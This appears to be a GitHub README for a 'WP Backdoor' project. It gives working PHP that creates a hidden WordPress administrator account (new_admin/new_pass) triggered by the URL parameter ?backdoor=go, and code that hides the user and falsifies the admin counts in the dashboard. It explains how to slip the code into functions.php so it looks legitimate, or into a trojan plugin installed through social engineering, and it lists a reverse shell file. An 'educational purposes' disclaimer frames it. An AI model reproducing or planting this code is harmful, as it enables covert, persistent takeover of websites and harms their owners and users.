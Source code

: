 ![logo](/logo.png)
![version](https://img.shields.io/badge/version-1.0-blue) ![version](https://img.shields.io/badge/tested-locally-green) ![version](https://img.shields.io/badge/language-PHP-purple)
## Disclaimer
**This is for educational purposes only.** I am not liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses, resulting from 

 1. your access to this resource and/or inability to access this resource
 2. any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties
 3. any content obtained from this resource.

## Files

 - [backdoor.php](/backdoor.php) - code to set the backdoor.
 - [hidden_admin.php](/hidden_admin.php) - code to hide users (the user created by backdoor.php).
 - [wp-backdoor.zip](/wp-backdoor.zip) - the code made WordPress plugin.
 - [wp-backdoor.php](/wp-backdoor/wp-backdoor.php) - code used for the plugin.
 - [reverse_shell.php](/reverse_shell.php) - Pentest Monkey PHP Reverse Shell. Old but gold.

## Proof of Concept
Many times I have asked myself how to maintain access to a compromised **WordPress** site for the sake of surveillance/data gathering/etc... Apart from reverse shells, of course, because I see some issues with the reverse shells stuff. I know they're all rectifiable but there are many things to have into consideration if in a rush:

 1. You have to throw the reverse shell to your IP - revealing info about you.
 2. Proxy then! - I don't trust free proxies... they're down, slow, instable...
 3. A reverse shell is just that: a shell - you can do a lot of stuff but it's not an easy GUI.
 4. Not precisely hidden - unless you hide the malicious code really well, it will be detected very fast.
 5. And after you get the shell you have to escalate privileges.

So I thought... what about **a dormant/hidden admin account** you can activate whenever you want and access (via wp-login) the core of the site inadvert?

Well, here's the first draft of this thought.

The starting point is: **you already have access.** How? That's up to you and beyond the scope of this code. But, in case you want to use it to gain access, you'll need a Trojan Horse and good social engineering skills.

To explain the **WP Backdoor** I will divide the code in three parts: 

 1. Creating the admin user.
 2. Hiding the admin user.
 3. Installing the backdoor.

## Creating the new_admin

WordPress allows us to do everything by code. That means we can actually create users with a few lines of code. But to go further, let's trigger that user creation by visiting a specific URL:

    add_action( 'wp_head', 'wp_backdoor' );
    
    function  wp_backdoor() {
	    if ( $_GET['backdoor'] == 'go' ) {
		    require( 'wp-includes/registration.php' );
		    if ( !username_exists( 'new_admin' ) ) {
			    $user_id = wp_create_user( 'new_admin', 'new_pass' );
			    $user = new  WP_User( $user_id );
			    $user->set_role( 'administrator' );
		    }
	    }
    }

By visiting the URL: *https://[insert website here]*/**?backdoor=go**, automatically a new user called **new_admin** will be created. This new user will have the role of administrator and its privileges and the password would be **new_pass.**

Now we have the user but it's in plain sight and would be easily noticed by others. So it's time to hide it!

## Hiding the new_admin

This code has two parts: hiding the **new_admin** and making everything look right.

Code for hiding a user:

    add_action('pre_user_query','dt_pre_user_query');
    
    function  dt_pre_user_query($user_search) {
	    global  $current_user;
	    $username = $current_user->user_login;

	    if ($username != 'new_admin') {
		    global  $wpdb;
		    $user_search->query_where = str_replace('WHERE 1=1',
			    "WHERE 1=1 AND {$wpdb->users}.user_login != 'new_admin'",$user_search->query_where);
        }
    }

But without the next piece of code there would be some hints that something is happening. In example: there's only one admin but the total count of admins is 2. Funky...

So let's correct those flaws...

    add_filter("views_users", "dt_list_table_views");
    
    function  dt_list_table_views($views){
	    $users = count_users();
	    $admins_num = $users['avail_roles']['administrator'] - 1;
	    $all_num = $users['total_users'] - 1;
	    $class_adm = ( strpos($views['administrator'], 'current') === false ) ? "" : "current";
	    $class_all = ( strpos($views['all'], 'current') === false ) ? "" : "current";
	    $views['administrator'] = '<a href="users.php?role=administrator" class="'  .  $class_adm  .  '">'  .  translate_user_role('Administrator') .  ' <span class="count">('  .  $admins_num  .  ')</span></a>';
	    $views['all'] = '<a href="users.php" class="'  .  $class_all  .  '">'  .  __('All') .  ' <span class="count">('  .  $all_num  .  ')</span></a>';
	    return  $views;
    }

And there we go! Now our backdoor would be unnoticed unless someone carries out a thorough scan of the site. But... How can we stuff this code into a WordPress site?

Well, here are some ways. Sure there are more. Let your imagination be the limit!

## Setting up the backdoor
Depending on your intentions this would be your first or your last step. If you are using this method for persistence then it would be your last step and you should have access already.

In case you want to gain access, you should start here.

### Persistence

If you already have access, just copy the three code blocks together into **functions.php.** Not on top, not at the bottom, right in the middle. I have tried to do it around line 150. With a quick look to the code it looks legit.

Once it's pasted and saved, backdoor is ready to be used. 

You can use a Reverse Shell to do this task 😉

### Gain access

We can hide this malicious code into a WordPress plugin. This method can be used for persistance as well but have some inconvenients. The main one is that, once the plugin is deactivated, so does the hiding code and your backdoor would be visible.

We can make our own plugin to disguise the code or download a legit plugin, stuff it inside and - for both cases with a bit of social engineering, make the admin install the plugin.

I am giving you a simple plugin containing just the malicious code. It is not disguised, just a sample. If you feel like, you can also learn how to make legit plugins with the WordPress documentation. 

## Final thoughts
I know this could be better. And it will. My future improvements would probably go around using a plugin to write into functions.php so once it is activated, code is stuffed in functions.php and the plugin is not needed anymore.

Be careful who you let in your site. Update everything, revise the core code and delete  unuseful stuff you don't need.

That's it. If you want to add more info, code or anything I'll be pleased. Happy hacking!

